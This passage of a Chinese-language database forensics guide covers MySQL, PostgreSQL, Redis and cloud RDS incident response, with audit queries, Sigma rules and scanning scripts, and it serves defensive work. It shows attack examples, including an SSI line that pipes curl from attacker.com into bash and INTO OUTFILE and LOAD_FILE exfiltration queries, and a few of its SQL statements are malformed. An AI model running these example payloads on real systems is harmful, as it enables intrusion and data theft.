| Oracle | DBMS_SCHEDULER | 定时任务提权 | DBA_SCHEDULER_JOBS |
| MySQL | Event Scheduler | 定时后门 | mysql.event 表 |

```sql
SELECT db, name, type, definer, created, security_type FROM mysql.proc WHERE type = 'PROCEDURE' AND security_type = 'DEFINER';
```

```sql
SELECT routine_name, routine_type, routine_body, external_language, created
FROM information_schema.routines
WHERE external_language = 'C' OR routine_definition LIKE '%soname%';
```

```sql
SELECT event_schema, event_name, status, event_type, execute_at, interval_value, interval_field
FROM information_schema.events
WHERE event_definition LIKE '%SLEEP%' OR event_definition LIKE '%INTO OUTFILE%';
```

```sql
SELECT proname, proowner::regrole, prolang::regtype, prosrc
FROM pg_proc
WHERE prolang = (SELECT oid FROM pg_language WHERE lanname = 'c');
```

### PostgreSQL 大对象利用与数据隐写

PostgreSQL 的 Large Object 功能允许存储最大 4GB 的二进制对象，攻击者可能利用此功能隐藏恶意数据或实现隐蔽通信：

```sql
SELECT loid, lomode, lonowner, lodesc, lo creation::text
FROM pg_catalog.pg_largeobject_metadata
WHERE lonowner NOT IN (SELECT oid FROM pg_roles WHERE rolname IN ('postgres', 'replication'));
```

```sql
SELECTloid, pageno, pg_catalog.lo_get(loid, pageno * 131072 + 1, 100) AS chunk_preview
FROM pg_largeobject
WHERE pageno < 5
LIMIT 20;
```

```sql
SELECT e.event_type, e.object_type, e.object_identity, e.command_tag, e.session_user_name, e.event_time
FROM pg_catalog.pg_stat_activity a
JOIN pg_catalog.pg_backend_memory_contexts m ON a.pid = m.pid
WHERE e.object_type = 'large object';
```

### 数据库账户持久化

攻击者在获取数据库访问权限后，会创建隐藏账户或植入触发器后门以维持持久化访问：

```sql
SELECT user, host, password, authentication_string, account_locked, password_expired FROM mysql.user;
```

```sql
SELECT trigger_schema, trigger_name, event_object_table, action_timing, event_manipulation, action_statement
FROM information_schema.triggers
WHERE action_statement LIKE '%SLEEP%' OR action_statement LIKE '%INTO OUTFILE%'
   OR action_statement LIKE '%LOAD_FILE%' OR action_statement LIKE '%BENCHMARK%'
   OR action_statement LIKE '%EXECUTE%IMMEDIATE%';
```

```sql
SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges
WHERE grantee NOT IN (SELECT DISTINCT grantee FROM information_schema.table_privileges);
```

```sql
SELECT usename, usesuper, usecreatedb, usecatupdate, valuntil, passwd
FROM pg_shadow
WHERE usesuper = true;
```

```bash
mysqlbinlog -v binlog.000042 | grep -iE "CREATE\s+USER|GRANT\s+ALL|SET\s+PASSWORD|CREATE\s+TRIGGER"
```

### 权限提升路径分析

```sql
SELECT user, host, super_priv, file_priv, process_priv, grant_priv FROM mysql.user WHERE super_priv='Y' OR file_priv='Y' OR grant_priv='Y';
```

```sql
SELECT r.rolname, r.rolsuper, r.rolcreaterole, r.rolcreatedb, r.rolcanlogin, r.rolreplication, ARRAY_AGG(m.rolname) AS member_of
FROM pg_roles r
LEFT JOIN pg_auth_members am ON r.oid = am.roleid
LEFT JOIN pg_roles m ON am.member = m.oid
WHERE r.rolsuper = true OR r.rolcreaterole = true
GROUP BY r.rolname, r.rolsuper, r.rolcreaterole, r.rolcreatedb, r.rolcanlogin, r.rolreplication;
```

```sql
SELECT user, host, Super_priv, File_priv, Process_priv, Grant_priv, Create_user_priv FROM mysql.user WHERE Super_priv='Y' OR File_priv='Y' OR Grant_priv='Y' OR Create_user_priv='Y';
```

```bash
mysqlbinlog -v binlog.000042 | awk '/GRANT.*ON.*\*\.\*/{print}'
```

权限提升检查汇总表：

| 检查项 | MySQL | PostgreSQL | 风险等级 |
|-------|-------|------------|---------|
| SUPER 权限 | super_priv = 'Y' | superuser = true | 🔴 极高 |
| FILE 权限 | file_priv = 'Y' | pg_read_server_files | 🔴 极高 |
| GRANT 权限 | grant_priv = 'Y' | createrole = true | 🔴 高 |
| ALL PRIVILEGES | GRANT ALL ON *.* | 超级用户 | 🔴 极高 |
| DEFINER 存储过程 | security_type=DEFINER | search_path 篡改 | 🟡 高 |
| EVENT 权限 | event_priv = 'Y' | pg_cron 扩展 | 🟡 中 |

---

## 0x06 数据泄露与外传取证

### 数据脱库痕迹检测

数据脱库（Data Exfiltration from Database）是数据库安全事件中最常见的攻击目标（MITRE ATT&CK: T1005 Data from Local System, T1039 Data from Network Shared Drive）。

| 脱库方式 | 使用工具/命令 | 取证检测点 | 检测难度 |
|---------|------------|-----------|---------|
| SELECT INTO OUTFILE | MySQL 原生 | binlog + 文件系统 | 中 |
| mysqldump | mysqldump 工具 | 进程记录 + 网络连接 | 中 |
| pg_dump | pg_dump 工具 | 进程记录 + 网络连接 | 中 |
| LOAD_FILE + HTTP | UDF 或 WebShell | 外联流量 | 高 |
| 慢查询逐行导出 | 应用层代码 | Slow Query Log | 高 |
| 数据库复制 | REPLICATION | 异常复制配置 | 中 |

```sql
SELECT * FROM users INTO OUTFILE '/tmp/users_dump.csv' FIELDS TERMINATED BY ',' ENCLOSED BY '"' LINES TERMINATED BY '\n';
```

```sql
SELECT * FROM users INTO DUMPFILE '/tmp/users_raw.bin';
```

```bash
find /tmp /var/tmp /dev/shm /var/log -name "*.csv" -o -name "*.sql" -o -name "*.dump" -o -name "*.bak" -o -name "*.bin" -newer /etc/hostname 2>/dev/null
```

```bash
mysqlbinlog -v binlog.000042 | grep -iE "INTO\s+(OUT|DUMP)FILE"
```

```bash
ps aux | grep -E "mysqldump|pg_dump|mongoexport|redis-dump" | grep -v grep
```

```bash
lsof -p $(pgrep -f mysqldump) 2>/dev/null | grep -E "cwd|txt|REG" | head -20
```

### 外联检测

数据库层面的数据外联通常通过以下方式实现：

```sql
SELECT LOAD_FILE('/etc/passwd');
```

```sql
SELECT * FROM users INTO OUTFILE '/var/www/html/dump.csv';
```

```sql
SELECT '<!--#exec cmd="curl http://attacker.com/shell.sh | bash"-->' INTO OUTFILE '/var/www/html/shell.shtml';
```

检测 MySQL 外联的命令：

```bash
grep -rE "LOAD_FILE|INTO\s+(OUT|DUMP)FILE|SELECT.*INTO" /var/log/mysql/ | head -20
```

```bash
tcpdump -i any -A 'port 80 or port 443' | grep -iE "SELECT|INSERT|UPDATE|DELETE|dump|export" | head -50
```

| 外联方式 | 传输通道 | 检测手段 | 隐蔽等级 |
|---------|---------|---------|---------|
| INTO OUTFILE 写 Web 目录 | HTTP | 文件系统监控 | 低 |
| UDF + curl/wget | HTTPS | 出站流量分析 | 中 |
| LOAD_FILE + HTTP | HTTP/HTTPS | 请求内容检测 | 中 |
| 逻辑复制到外部 | PostgreSQL Replication | 复制连接审计 | 高 |
| 慢查询推断 | HTTP（应用层） | 查询模式分析 | 极高 |

### 数据水印追踪

数据水印技术用于在数据库记录中嵌入不可见的标记，帮助追踪数据泄露的来源。

| 水印类型 | 嵌入方式 | 检测方法 | 适用场景 |
|---------|---------|---------|---------|
| 隐式水印（时间戳偏移） | 记录时间戳纳秒级微调 | 统计分析时间分布 | 时序数据 |
| 显式水印（附加字段） | 在数据行中插入标识字段 | SQL 查询扫描 | 结构化数据 |
| 数字指纹（值域编码） | 特定字段值的微小扰动 | 差异检测 | 数值型数据 |
| 查询水印 | 特定查询结果中注入伪造记录 | 响应内容审查 | API 数据 |

```sql
SELECT COUNT(*) AS total, COUNT(DISTINCT secret_watermark_field) AS watermarks FROM sensitive_data;
```

```sql
SELECT user_id, email, created_at,
       CAST(created_at AS DECIMAL(18,15)) - CAST(FROM_UNIXTIME(FLOOR(UNIX_TIMESTAMP(created_at))) AS DECIMAL(18,15)) AS ts_micro
FROM users ORDER BY ts_micro DESC LIMIT 100;
```

```python
import struct
import sqlite3

def detect_watermark(db_path):
    conn = sqlite3.connect(db_path)
    cursor = conn.cursor()
    cursor.execute("SELECT name FROM sqlite_master WHERE type='table'")
    tables = cursor.fetchall()
    findings = []
    for table in tables:
        cursor.execute(f"PRAGMA table_info({table[0]})")
        columns = [col[1] for col in cursor.fetchall()]
        for col in columns:
            if any(w in col.lower() for w in ['watermark', 'fingerprint', 'tag', 'mark', 'track']):
                findings.append(f"SUSPICIOUS COLUMN: {table[0]}.{col}")
    conn.close()
    return findings
```

### 数据库连接审计

异常连接行为是数据泄露的关键前兆：

```sql
SELECT user, host, COUNT(*) AS conn_count FROM mysql.general_log WHERE command_type = 'Connect' GROUP BY user, host ORDER BY conn_count DESC;
```

```sql
SELECT client_addr, usename, backend_start, state_change, query_start, query, backend_type
FROM pg_stat_activity
WHERE backend_type = 'client backend'
ORDER BY query_start DESC;
```

```sql
SELECT conn, user, db, addr, idle_in, age(now(), conn) AS conn_age FROM pg_stat_activity WHERE state = 'active' AND now() - query_start > interval '5 minutes';
```

```bash
ss -tnp | grep -E "3306|5432|27017|6379" | awk '{print $4, $5}' | sort | uniq -c | sort -rn | head -20
```

```bash
netstat -tnp | grep -E "3306|5432|27017|6379" | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -rn | head -20
```

异常连接特征表：

| 异常特征 | 检测指标 | 风险等级 |
|---------|---------|---------|
| 非工作时间连接 | 连接时间不在 08:00-22:00 | 🟡 高 |
| 异常来源 IP | 来自非 VPN/办公网段 | 🟡 高 |
| 批量查询 | 短时间内大量 SELECT | 🔴 确认恶意 |
| 长时间空闲 | idle > 30min 但未断开 | 🟡 中 |
| 超权限查询 | 普通用户执行 DDL | 🔴 确认恶意 |
| 异常传输大小 | 返回数据量远超基线 | 🔴 高 |

### binlog/WAL 外传分析

攻击者可能通过 binlog 复制链或 PostgreSQL 逻辑复制将数据外传至攻击者控制的服务器：

```bash
mysqlbinlog -v binlog.000042 | grep -iE "CHANGE MASTER|REPLICA OF|CHANGE REPLICATION"
```

```bash
cat /var/lib/mysql/auto.cnf
```

```bash
mysql -e "SHOW SLAVE HOSTS\G"
```

```bash
mysql -e "SHOW BINARY LOGS\G"
```

```sql
SHOW MASTER STATUS;
SHOW SLAVE STATUS\G
```

```bash
cat /var/lib/postgresql/14/main/pg_wal/archive_status/ | ls -la
```

```bash
psql -c "SELECT * FROM pg_stat_replication;"
```

```bash
psql -c "SELECT slot_name, plugin, slot_type, database, active, restart_lsn, confirmed_flush_lsn FROM pg_replication_slots;"
```

---

## 0x07 云数据库与 RDS 取证

### AWS RDS 审计日志分析

AWS RDS 提供了多层次的日志体系用于安全审计和取证分析：

| 日志类型 | 存储位置 | 保留策略 | 取证用途 |
|---------|---------|---------|---------|
| rds_audit.log | CloudWatch Logs | 自定义（0-732天） | SQL 审计 |
| error/mysql-error.log | CloudWatch Logs | 自定义 | 异常事件 |
| slowquery/mysql-slow.log | CloudWatch Logs | 自定义 | 慢查询分析 |
| general/mysql-general.log | CloudWatch Logs | 自定义 | 全量 SQL |
| CloudTrail | S3 | 永久 | API 操作审计 |

```bash
aws logs filter-log-events --log-group-name /aws/rds/instance/mydb/audit --filter-pattern "ERROR OR WARNING" --start-time 1688534400000
```

```bash
aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=CreateDBInstance --start-time 2026-06-01T00:00:00Z
```

```bash
aws rds describe-db-instances --db-instance-identifier mydb --query 'DBInstances[0].{Status:DBInstanceStatus,Engine:Engine,MasterUsername:MasterUsername,Endpoint:Endpoint.Address}'
```

RDS 审计日志分析脚本：

```python
import boto3
import json
from datetime import datetime, timedelta

def analyze_rds_audit(log_group, hours=24):
    client = boto3.client('logs')
    end_time = int(datetime.now().timestamp() * 1000)
    start_time = int((datetime.now() - timedelta(hours=hours)).timestamp() * 1000)
    events = []
    next_token = None
    while True:
        kwargs = {
            'logGroupName': log_group,
            'startTime': start_time,
            'endTime': end_time,
            'filterPattern': 'INSERT OR DELETE OR GRANT OR DROP OR ALTER',
            'limit': 10000
        }
        if next_token:
            kwargs['nextToken'] = next_token
        response = client.filter_log_events(**kwargs)
        events.extend(response['events'])
        next_token = response.get('nextToken')
        if not next_token:
            break
    suspicious = []
    for event in events:
        msg = event['message']
        if any(kw in msg.upper() for kw in ['GRANT ALL', 'DROP USER', 'INTO OUTFILE', 'LOAD_FILE', 'CREATE USER']):
            suspicious.append({
                'timestamp': event['timestamp'],
                'message': msg[:500]
            })
    return suspicious
```

### Azure SQL 审计日志

```bash
az sql server audit-policy show --server-name myserver --resource-group myrg
```

```bash
az monitor diagnostic-settings list --resource /subscriptions/{sub}/resourceGroups/{rg}/providers/Microsoft.Sql/servers/{server}
```

```bash
az monitor logs query --workspace "{workspace_id}" --query "AzureDiagnostics | where Category == 'SQLSecurityAuditEvents' | where action_name_s in ('INSERT','DELETE','UPDATE','DROP DATABASE','CREATE USER') | order by event_time_t desc | take 100"
```

Azure SQL 威胁检测日志查询：

```bash
az monitor logs query --workspace "{workspace_id}" --query "AzureSecurityInsights | where EventType == 'SqlInjectionExploit' or EventType == 'AccessFromAbnormalIP' | order by EventTime desc | take 50"
```

### Google Cloud SQL 审计日志

```bash
gcloud logging read "resource.type=cloudsql_database AND protoPayload.methodName=INSERT OR DELETE OR UPDATE OR GRANT OR DROP" --format=json --limit=100
```

```bash
gcloud logging read "resource.type=cloudsql_database AND severity>=WARNING" --format=json --limit=50
```

```bash
gcloud logging read "protoPayload.serviceName=cloudsql.googleapis.com AND protoPayload.methodName!=Query" --format=json --limit=100
```

### 阿里云 RDS 审计日志

```bash
aliyun rds DescribeDBInstanceAuditPolicy --DBInstanceId rm-xxx
```

```bash
aliyun rds DownloadLogList --DBInstanceId rm-xxx --StartTime=2026-06-01T00:00Z --EndTime=2026-06-02T00:00Z --LogType=SlowQuery
```

```bash
aliyun rds DescribeDBInstanceAttribute --DBInstanceId rm-xxx --query 'Items[0].{Engine:Engine,SecurityIPList:SecurityIPList,Account:AccountName}'
```

阿里云 RDS 审计日志字段说明：

| 字段名 | 含义 | 取证用途 |
|-------|------|---------|
| client_ip | 客户端 IP | 来源追踪 |
| user | 数据库用户 | 身份确认 |
| sql_text | SQL 语句文本 | 载荷分析 |
| exec_time | 执行时间（μs） | 盲注检测 |
| rows_affected | 影响行数 | 数据泄露估算 |
| thread_id | 线程 ID | 会话关联 |
| error_code | 错误码 | 异常识别 |

### 云数据库特有攻击面

| 攻击面 | 攻击方式 | 取证方法 |
|-------|---------|---------|
| IAM 角色滥用 | 利用 EC2 实例角色获取 RDS 凭据 | CloudTrail 审计 |
| VPC 配置错误 | 安全组放行 0.0.0.0/0 | VPC Flow Logs |
| 快照泄露 | 公开共享数据库快照 | EC2 Snapshot 权限 |
| Parameter Group 篡改 | 修改数据库参数（关闭审计） | Config 变更历史 |
| 代理凭据泄露 | RDS Proxy 中的连接池凭据 | Secrets Manager 日志 |

```bash
aws ec2 describe-security-groups --filters "Name=ip-permission.cidr,Values=0.0.0.0/0" --query 'SecurityGroups[?IpPermissions[?contains(IpRanges[].CidrIp, `0.0.0.0/0`)]]'
```

```bash
aws ec2 describe-snapshots --owner-ids self --query 'Snapshots[?Encrypted==`false`]'
```

```bash
aws rds describe-db-snapshot-attributes --db-snapshot-identifier my-snapshot --query 'DBSnapshotAttributes[?AttributeName==`restore`]'
```

---

## 0x08 证据强度分层与案例关联

### 🔴 确认恶意

以下证据具有明确恶意意图和行为，可直接作为攻击确认的依据：

| 序号 | 证据描述 | 检测方法 | ATT&CK 映射 | 证据等级 |
|-----|---------|---------|------------|---------|
| 1 | binlog 中的 SQL 注入 payload（UNION SELECT + SLEEP） | mysqlbinlog 分析 | T1190 Exploit Public-Facing Application | 🔴 确认恶意 |
| 2 | mysql.func 表中注册的 UDF 函数（.so 落地） | mysql.func 表查询 + 文件系统检查 | T1505.003 Web Shell | 🔴 确认恶意 |
| 3 | INTO OUTFILE 导出敏感数据至 Web 目录 | binlog + 文件系统关联 | T1005 Data from Local System | 🔴 确认恶意 |
| 4 | 后门存储过程（含 EXECUTE IMMEDIATE 或 os_command） | information_schema.routines 审计 | T1505 Server Software Component | 🔴 确认恶意 |
| 5 | Redis 中写入 crontab 反弹 Shell | AOF/RDB 键值扫描 | T1059 Command and Scripting Interpreter | 🔴 确认恶意 |

### 🟡 高度可疑

以下证据强烈暗示恶意活动，需要结合上下文进一步验证：

| 序号 | 证据描述 | 检测方法 | ATT&CK 映射 | 证据等级 |
|-----|---------|---------|------------|---------|
| 1 | 短时间内高频异常查询（>10,000 次/分钟） | pg_stat_statements / 慢查询日志 | T1005 Data from Local System | 🟡 高度可疑 |
| 2 | 非工作时间（02:00-06:00）批量数据库访问 | 连接日志时间分析 | T1078 Valid Accounts | 🟡 高度可疑 |
| 3 | 普通用户执行 GRANT ALL 或 CREATE USER | DCL 审计日志 | T1078.004 Cloud Accounts | 🟡 高度可疑 |
| 4 | 数据库连接来源为 VPN/Tor/海外 IP | 连接审计 + GeoIP | T1078 Valid Accounts | 🟡 高度可疑 |
| 5 | MongoDB 中大量 $where 查询 | profiling 日志 | T1059 Command and Scripting Interpreter | 🟡 高度可疑 |

### 🟢 需要关注

以下证据可能为正常行为，但需要结合上下文评估风险：

| 序号 | 证据描述 | 检测方法 | ATT&CK 映射 | 证据等级 |
|-----|---------|---------|------------|---------|
| 1 | 慢查询数量突增（相比基线增长 300%） | 慢查询日志趋势 | T1499 Endpoint Denial of Service | 🟢 需要关注 |
| 2 | 数据库连接数接近 max_connections | SHOW STATUS | T1499 Endpoint Denial of Service | 🟢 需要关注 |
| 3 | 数据库版本信息在错误消息中泄露 | 错误日志 | T1592 Gather Victim Host Information | 🟢 需要关注 |
| 4 | General Log 记录内容被禁用或轮转 | 配置审计 | T1562.002 Disable Windows Event Logging | 🟢 需要关注 |
| 5 | 数据库配置弱化（空密码、trust 认证） | 配置审计 | T1552 Unsecured Credentials | 🟢 需要关注 |

---

## 0x09 自动化检测与狩猎

### Sigma 规则

以下 Sigma 规则用于检测数据库环境中的典型攻击行为：

```yaml
title: MySQL SQL Injection UNION SELECT Detection
id: 5a1b2c3d-4e5f-6789-abcd-ef0123456789
status: experimental
description: Detects UNION SELECT patterns in MySQL general log indicating SQL injection attempts
references:
  - https://owasp.org/www-community/attacks/SQL_Injection
author: x7peeps
date: 2026/07/05
tags:
  - attack.initial_access
  - attack.t1190
logsource:
  product: mysql
  service: general_log
detection:
  selection_uni:
    argument|contains:
      - 'UNION SELECT'
      - 'UNION ALL SELECT'
      - 'union select'
      - 'union all select'
  selection_payload:
    argument|contains:
      - 'information_schema'
      - 'mysql.user'
      - 'pg_catalog'
      - 'sysadmin'
  condition: selection_uni and selection_payload
  timeframe: 5m
  count(argument) > 5
level: high
falsepositives:
  - Legitimate reporting queries
```

```yaml
title: MySQL UDF Privilege Escalation
id: 6b2c3d4e-5f6a-7890-bcde-f01234567890
status: experimental
description: Detects creation of MySQL User Defined Functions which may indicate privilege escalation
author: x7peeps
date: 2026/07/05
tags:
  - attack.privilege_escalation
  - attack.t1078
logsource:
  product: mysql
  service: general_log
detection:
  selection:
    argument|contains:
      - 'CREATE FUNCTION'
      - 'CREATE AGGREGATE FUNCTION'
  filter_legit:
    argument|contains:
      - 'CONCAT'
      - 'IFNULL'
      - 'UUID'
  condition: selection and not filter_legit
level: critical
falsepositives:
  - Application UDF installation (rare)
```

```yaml
title: Redis Suspicious CONFIG SET Command
id: 7c3d4e5f-6a7b-8901-cdef-012345678901
status: experimental
description: Detects Redis CONFIG SET commands that may indicate unauthorized access or exploitation
author: x7peeps
date: 2026/07/05
tags:
  - attack.command_and_control
  - attack.t1105
logsource:
  product: redis
  service: logfile
detection:
  selection_dir:
    command|contains:
      - 'CONFIG SET dir'
      - 'CONFIG SET dbfilename'
      - 'CONFIG SET requirepass'
      - 'CONFIG SET bind'
      - 'CONFIG SET protected-mode no'
  selection_module:
    command|contains:
      - 'MODULE LOAD'
      - 'SLAVEOF'
      - 'REPLICAOF'
  condition: selection_dir or selection_module
level: critical
falsepositives:
  - Legitimate Redis administration
```

### Bash 脚本

以下脚本用于自动化 MySQL binlog 分析：

```bash
#!/bin/bash
BINLOG_DIR="/var/lib/mysql"
BINLOG_PREFIX="binlog.000"
SUSPICIOUS_PATTERNS="UNION|SLEEP|BENCHMARK|LOAD_FILE|INTO\s+(OUT|DUMP)FILE|GRANT\s+ALL|CREATE\s+(USER|FUNCTION|TRIGGER|EVENT)|DROP\s+(USER|DATABASE)|information_schema|mysql\.user"
OUTPUT_DIR="/tmp/mysql_forensics_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$OUTPUT_DIR"

echo "[*] MySQL Binlog Forensic Analysis"
echo "[*] Output directory: $OUTPUT_DIR"

for binlog in "$BINLOG_DIR"/$BINLOG_PREFIX*; do
    echo "[+] Processing: $binlog"
    mysqlbinlog -v "$binlog" 2>/dev/null | grep -iE "$SUSPICIOUS_PATTERNS" >> "$OUTPUT_DIR/suspicious_queries.txt"
    mysqlbinlog --base64-output=decode-rows -v "$binlog" 2>/dev/null | grep -iE "INTO\s+(OUT|DUMP)FILE|LOAD_FILE" >> "$OUTPUT_DIR/data_exfil.txt"
done

echo "[*] Suspicious queries found:"
wc -l "$OUTPUT_DIR/suspicious_queries.txt"

echo "[*] Data exfiltration attempts:"
wc -l "$OUTPUT_DIR/data_exfil.txt"

echo "[*] Timeline of suspicious events:"
grep -hE "^[0-9]{6}" "$OUTPUT_DIR/suspicious_queries.txt" | awk '{print $1, $2, $0}' | sort > "$OUTPUT_DIR/timeline.txt"
head -30 "$OUTPUT_DIR/timeline.txt"

echo "[+] Analysis complete. Results in: $OUTPUT_DIR"
```

以下脚本用于 PostgreSQL WAL 日志扫描：

```bash
#!/bin/bash
PG_WAL_DIR="/var/lib/postgresql/14/main/pg_wal"
OUTPUT_DIR="/tmp/pg_wal_forensics_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$OUTPUT_DIR"

echo "[*] PostgreSQL WAL Forensic Analysis"

for wal_file in "$PG_WAL_DIR"/00000001*; do
    echo "[+] Processing: $wal_file"
    pg_waldump "$wal_file" 2>/dev/null | grep -iE "CREATE|DROP|TRUNCATE|GRANT|REVOKE|ALTER" >> "$OUTPUT_DIR/suspicious_ddl.txt"
    pg_waldump "$wal_file" 2>/dev/null | grep -iE "heap_insert|heap_delete|heap_update" | wc -l >> "$OUTPUT_DIR/write_counts.txt"
done

echo "[*] Suspicious DDL operations:"
cat "$OUTPUT_DIR/suspicious_ddl.txt" | head -50

echo "[+] Analysis complete. Results in: $OUTPUT_DIR"
```

以下脚本用于 Redis 异常键值检测：

```bash
#!/bin/bash
REDIS_HOST="127.0.0.1"
REDIS_PORT="6379"
REDIS_PASS=""
OUTPUT_DIR="/tmp/redis_forensics_$(date +%Y%m%d_%H%M%S)"
mkdir -p "$OUTPUT_DIR"

echo "[*] Redis Security Forensic Analysis"

redis-cli -h "$REDIS_HOST" -p "$REDIS_PORT" -a "$REDIS_PASS" --no-auth-warning CONFIG GET requirepass > "$OUTPUT_DIR/config.txt" 2>/dev/null
redis-cli -h "$REDIS_HOST" -p "$REDIS_PORT" -a "$REDIS_PASS" --no-auth-warning CONFIG GET protected-mode >> "$OUTPUT_DIR/config.txt" 2>/dev/null

echo "[+] Configuration audit:"
cat "$OUTPUT_DIR/config.txt"

echo "[+] Scanning for suspicious keys..."
redis-cli -h "$REDIS_HOST" -p "$REDIS_PORT" -a "$REDIS_PASS" --no-auth-warning KEYS '*' 2>/dev/null | grep -iE "ssh|cron|shell|webshell|authorized|config|auth" > "$OUTPUT_DIR/suspicious_keys.txt"
cat "$OUTPUT_DIR/suspicious_keys.txt"

echo "[+] Checking for dangerous commands in AOF..."
if [ -f /var/lib/redis/appendonly.aof ]; then
    grep -iE "CONFIG SET|MODULE LOAD|SLAVEOF|REPLICAOF|FLUSHALL|FLUSHDB" /var/lib/redis/appendonly.aof > "$OUTPUT_DIR/dangerous_commands.txt" 2>/dev/null
    cat "$OUTPUT_DIR/dangerous_commands.txt"
fi

echo "[+] Checking RDB for suspicious content..."
if [ -f /var/lib/redis/dump.rdb ]; then
    strings /var/lib/redis/dump.rdb | grep -iE "ssh-rsa|authorized_keys|/bin/sh|/bin/bash|curl|wget|nc -|ncat|python -c|perl -e" > "$OUTPUT_DIR/rdb_suspicious.txt" 2>/dev/null
    cat "$OUTPUT_DIR/rdb_suspicious.txt"
fi

echo "[+] Redis analysis complete. Results in: $OUTPUT_DIR"
```

### Python 脚本

以下 Python 脚本用于 MySQL 慢查询日志解析和注入检测：

```python
import re
import sys
from datetime import datetime
from collections import defaultdict, Counter

SLOW_QUERY_PATTERN = re.compile(r'#\s+Query_time:\s+([\d.]+)\s+Lock_time:\s+([\d.]+)\s+Rows_sent:\s+(\d+)\s+Rows_examined:\s+(\d+)')
TIMESTAMP_PATTERN = re.compile(r'^(\d{6}\s+\d{2}:\d{2}:\d{2})\s+(\d+)')
INJECTION_PATTERNS = [
    (r'UNION\s+(ALL\s+)?SELECT', 'UNION SELECT'),
    (r'SLEEP\s*\(\s*\d+\s*\)', 'SLEEP injection'),
    (r'BENCHMARK\s*\(\s*\d+', 'BENCHMARK injection'),
    (r'LOAD_FILE\s*\(', 'LOAD_FILE'),
    (r'INTO\s+(OUT|DUMP)FILE', 'OUTFILE data exfil'),
    (r'information_schema', 'Schema enumeration'),
    (r'mysql\.(user|db|func)', 'MySQL internal table access'),
    (r'pg_shadow', 'PostgreSQL password hash access'),
    (r'benchmark\s*\(\s*10000', 'Heavy benchmark'),
    (r'IF\s*\(.*SLEEP', 'Conditional time injection'),
]

def parse_slow_log(filepath):
    findings = []
    current_entry = {}
    with open(filepath, 'r', errors='ignore') as f:
        for line in f:
            line = line.strip()
            ts_match = TIMESTAMP_PATTERN.match(line)
            if ts_match:
                current_entry['timestamp'] = ts_match.group(1)
                current_entry['user_host'] = line.split('\t')[-1] if '\t' in line else ''
            q_match = SLOW_QUERY_PATTERN.match(line)
            if q_match:
                current_entry['query_time'] = float(q_match.group(1))
                current_entry['rows_sent'] = int(q_match.group(3))
                current_entry['rows_examined'] = int(q_match.group(4))
            if line.startswith('SET timestamp='):
                current_entry['set_timestamp'] = line
            if line and not line.startswith('#') and not line.startswith('use ') and not line.startswith('SET'):
                current_entry['query'] = line
                for pattern, name in INJECTION_PATTERNS:
                    if re.search(pattern, line, re.IGNORECASE):
                        current_entry['injection_type'] = name
                        findings.append(current_entry.copy())
                        break
                current_entry = {}
    return findings

def analyze_findings(findings):
    print(f"[*] Total suspicious queries found: {len(findings)}")
    type_counts = Counter(f['injection_type'] for f in findings)
    print("\n[*] Injection type distribution:")
    for itype, count in type_counts.most_common():
        print(f"    {itype}: {count}")
    print("\n[*] Top 10 longest queries (potential blind injection):")
    sorted_by_time = sorted(findings, key=lambda x: x.get('query_time', 0), reverse=True)[:10]
    for f in sorted_by_time:
        print(f"    [{f.get('timestamp', 'unknown')}] {f.get('query_time', 0):.2f}s - {f.get('injection_type', 'N/A')}: {f.get('query', '')[:120]}")
    print("\n[*] High volume data extraction (rows_examined > 10000):")
    for f in findings:
        if f.get('rows_examined', 0) > 10000:
            print(f"    [{f.get('timestamp', 'unknown')}] examined={f.get('rows_examined', 0)} sent={f.get('rows_sent', 0)}: {f.get('query', '')[:120]}")

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <slow_query_log>")
        sys.exit(1)
    results = parse_slow_log(sys.argv[1])
    analyze_findings(results)
```

以下 Python 脚本用于数据库变更时间线生成：

```python
import re
import sys
import subprocess
from datetime import datetime

def parse_mysql_binlog(binlog_file):
    events = []
    try:
        result = subprocess.run(
            ['mysqlbinlog', '-v', binlog_file],
            capture_output=True, text=True, errors='ignore'
        )
        current_ts = None
        for line in result.stdout.split('\n'):
            ts_match = re.match(r'^(\d{6})\s+(\d{2}:\d{2}:\d{2})', line)
            if ts_match:
                current_ts = f"20{ts_match.group(1)[:2]}-{ts_match.group(1)[2:4]}-{ts_match.group(1)[4:6]} {ts_match.group(2)}"
            keywords = ['CREATE', 'ALTER', 'DROP', 'GRANT', 'REVOKE', 'INSERT', 'UPDATE', 'DELETE', 'TRUNCATE']
            if any(kw in line.upper() for kw in keywords) and current_ts:
                events.append({
                    'timestamp': current_ts,
                    'source': 'binlog',
                    'event': line.strip()[:200],
                    'severity': 'HIGH' if any(k in line.upper() for k in ['GRANT', 'CREATE USER', 'TRUNCATE', 'DROP']) else 'MEDIUM'
                })
    except FileNotFoundError:
        print("[!] mysqlbinlog not found")
    return events

def parse_pg_waldump(wal_dir):
    events = []
    try:
        import glob
        wal_files = glob.glob(f"{wal_dir}/00000001*")
        for wf in wal_files:
            result = subprocess.run(
                ['pg_waldump', wf],
                capture_output=True, text=True, errors='ignore'
            )
            for line in result.stdout.split('\n'):
                keywords = ['CREATE', 'DROP', 'TRUNCATE', 'GRANT', 'REVOKE']
                if any(kw in line.upper() for kw in keywords):
                    events.append({
                        'timestamp': 'WAL',
                        'source': 'wal',
                        'event': line.strip()[:200],
                        'severity': 'HIGH'
                    })
    except FileNotFoundError:
        print("[!] pg_waldump not found")
    return events

def generate_timeline(events):
    events.sort(key=lambda x: x.get('timestamp', ''))
    print("=" * 100)
    print(f"{'TIMESTAMP':<25} {'SOURCE':<10} {'SEVERITY':<10} {'EVENT'}")
    print("=" * 100)
    for e in events:
        sev_marker = "🔴" if e['severity'] == 'HIGH' else "🟡"
        print(f"{e.get('timestamp', 'N/A'):<25} {e['source']:<10} {sev_marker} {e['event']}")
    print("=" * 100)
    print(f"[*] Total events: {len(events)}")
    high_events = [e for e in events if e['severity'] == 'HIGH']
    print(f"[*] HIGH severity events: {len(high_events)}")

if __name__ == '__main__':
    all_events = []
    if len(sys.argv) > 1:
        for arg in sys.argv[1:]:
            if 'binlog' in arg:
                all_events.extend(parse_mysql_binlog(arg))
            elif 'wal' in arg.lower() or 'pg_wal' in arg:
                all_events.extend(parse_pg_waldump(arg))
    else:
        print(f"Usage: {sys.argv[0]} <binlog_file|wal_dir> [...]")
        sys.exit(1)
